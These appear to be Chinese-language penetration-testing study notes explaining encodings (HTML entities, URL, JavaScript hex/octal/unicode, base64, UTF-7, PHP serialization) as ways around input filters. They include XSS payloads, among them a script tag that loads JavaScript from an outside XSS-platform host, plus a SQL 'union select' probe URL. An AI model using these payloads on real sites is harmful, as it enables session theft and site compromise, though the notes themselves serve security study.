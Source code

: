 ## 1、页面编码

在网页设置网页编码 在<head></head>中加入设置特定html标签

<meta charset="utf-8" /> 这样页面的编码就会变成utf-8 ，如果没有设置编码就会使用默认

的编码，而浏览器默认编码与之不同就会出现乱码。

常用的有三种格式分别是 utf-8、gbk、gbk2312

## 2、ascii编码

百度百科 详细介绍

[https://baike.baidu.com/item/ASCII/309296?fr=aladdin&fromid=3712529&fromtitle=ASCII%E7%BC%96%E7%A0%81](https://baike.baidu.com/item/ASCII/309296?fr=aladdin&fromid=3712529&fromtitle=ASCII编码)

在渗透测试中常用的标准表 十进制 是 0-127 共128个字符

![](../acess/ascii编码表.png)

![image-20210318231150639](../acess/asciii1)

## 3、HTML编码

实体 

http://www.w3school.com.cn/html/html_entities.asp

HTML编码的存在就是让他在代码中和显示中分开， 避免错误。

命名实体：构造是&加上希腊字母，

字符编码：构造是&#加十进制

![image-20210318231311897](../acess/HTML编码表1)

十六进制 ASCII码或unicode字符编码，

而且浏览器解析的时候会先把html编码解析再进行渲染。但是有个前提就是必须要在“值”里，比如属性src里，但却不能对src进行html编码。不然浏览器无法正常的渲染。

http://www.qqxiuzi.cn/bianma/zifushiti.php

十六进制

```
<img src=https://www.baidu.com/img/bd_logo1.png>
```

十进制

```
<img src=https://www.baidu.com/img/bd_logo1.png>
```

xss

```
<img src="x" onerror="alert(1)" />
```

## 4、URL编码

URL编码是一种多功能技术，可以通过它来战胜多种类型的输入过滤器。

URL编码的最基本表示方式是使用问题字符的十六进制ASCII编码来替换它们，并在ASCII编码前加%。

例如，单引号字符的ASCII码为0x27，其URL编码的表示方式为%27。

[http://www.moonsec.com/index.php?keyword=aa%20union%20seelct](http://www.moonsec.com/index.php?keyword=aa union seelct)

## 5、js编码

```
<script>alert("Hello world!");</script> 
```

javascript的十六进制编码

```
\x3C\x73\x63\x72\x69\x70\x74\x3E\x61\x6C\x65\x72\x74\x28\x22\x48\x65\x6C\x6C\x6F\x20\x77\x6F\x72\x6C\x64\x21\x22\x29\x3B\x3C\x2F\x73\x63\x72\x69\x70\x74\x3E
```

javascript的八进制编码 

```
\74\163\143\162\151\160\164\76\141\154\145\162\164\50\42\110\145\154\154\157\40\167\157\162\154\144\41\42\51\73\74\57\163\143\162\151\160\164\76
```

http://www.jb51.net/tools/zhuanhuan.htm

javascript unicode编码

```
<img src="1.jpg" />
<script src=http://xsst.sinaapp.com/m.js></script>
<embed src=http://1.com/1.swf  allowscriptaccess=always></embed>
```

\u003c\u0073\u0063\u0072\u0069\u0070\u0074\u003e\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0048\u0065\u006c\u006c\u006f\u0020\u0077\u006f\u0072\u006c\u0064\u0021\u0022\u0029\u003b\u003c\u002f\u0073\u0063\u0072\u0069\u0070\u0074\u003e\u0020

http://www.msxindl.com/tools/unicode16.asp

https://www.toolmao.com/xsstranser

## 6、hex编码

这种编码常用于数据库中 转码过后要加上0x

例如 a的hex码是61 如果在数据库使用要加上0x61 

![image-20210318231755970](../acess/hex编码)

## 7、base64编码

BASE64 编码是一种常用的字符编码，在很多地方都会用到。但base64不是安全领域下的加密解密算法。能起到安全作用的效果很差，而且很容易破解，他核心作用应该是传输数据的正确性，有些网关或系统只能使用ASCII字符。Base64就是用来将非ASCII字符的数据转换成ASCII字符的一种方法，而且base64特别适合在http，mime协议下快速传输数据。

```
<a href="data:text/html;base64, PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">XSS</a>
```

## 8、json编码

JSON(JavaScript Object Notation) 是一种轻量级的数据交换格式，易于阅读和编写，同时也易于机器解析和生成。它基于ECMA262语言规范（1999-12第三版）中JavaScript编程语言的一个子集。 JSON采用与编程语言无关的文本格式，但是也使用了类C语言（包括C， C++， C#， Java， JavaScript， Perl， Python等）的习惯，这些特性使JSON成为理想的数据交换格式。

```json
[
    {
        "Name": "a1",
        "Number": "123",
        "Contno": "000",
        "QQNo": ""
    },
    {
        "Name": "a1",
        "Number": "123",
        "Contno": "000",
        "QQNo": ""
    },
    {
        "Name": "a1",
        "Number": "123",
        "Contno": "000",
        "QQNo": ""
    }
]
```



```php
<?php
$data='[{"Name":"a1","Number":"123","Contno":"000","QQNo":""},{"Name":"a1","Number":"123","Contno":"000","QQNo":""},{"Name":"a1","Number":"123","Contno":"000","QQNo":""}]'; 
$json=json_decode($data); 
print_r($json);
?>
```

## 9、序列化

序列化 (Serialization)是将对象的状态信息转换为可以存储或传输的形式的过程。在序列化期间，对象将其当前状态写入到临时或持久性存储区。以后，可以通过从存储区中读取或反序列化对象的状态，重新创建该对象。

百度百科详细

[https://baike.baidu.com/item/%E5%BA%8F%E5%88%97%E5%8C%96/2890184?fr=aladdin](https://baike.baidu.com/item/序列化/2890184?fr=aladdin)

 a:3:{i:0;s:3:"Moe";i:1;s:5:"Larry";i:2;s:5:"Curly";}

```php
<?php 
$stooges = array('Moe','Larry','Curly');
$new = serialize($stooges);
print_r($new);
echo "<br />";
print_r(unserialize($new));
?>
```

## 10、utf7编码

UTF-7 (7-位元 Unicode 转换格式（Unicode Transformation Format，简写成 UTF））是一种可变长度字符编码方式， 用以将 Unicode 字符以 ASCII 编码的字符串来呈现，可以应用在电子邮件传输之类的应用。

moonsec +AG0AbwBv-n+AHM-e+AGM-

https://web2hack.org/xssee/



```bash
cat << 'EOF' >json.php
<?php
$data='[{"Name":"a1","Number":"123","Contno":"000","QQNo":""},{"Name":"a1","Number":"123","Contno":"000","QQNo":""},{"Name":"a1","Number":"123","Contno":"000","QQNo":""}]'; 
$json=json_decode($data); 
print_r($json);
EOF

cat << 'EOF' >ser.php
<?php 
$stooges = array('Moe','Larry','Curly');
$new = serialize($stooges);
print_r($new);
echo "<br />";
print_r(unserialize($new));
?>
EOF
```

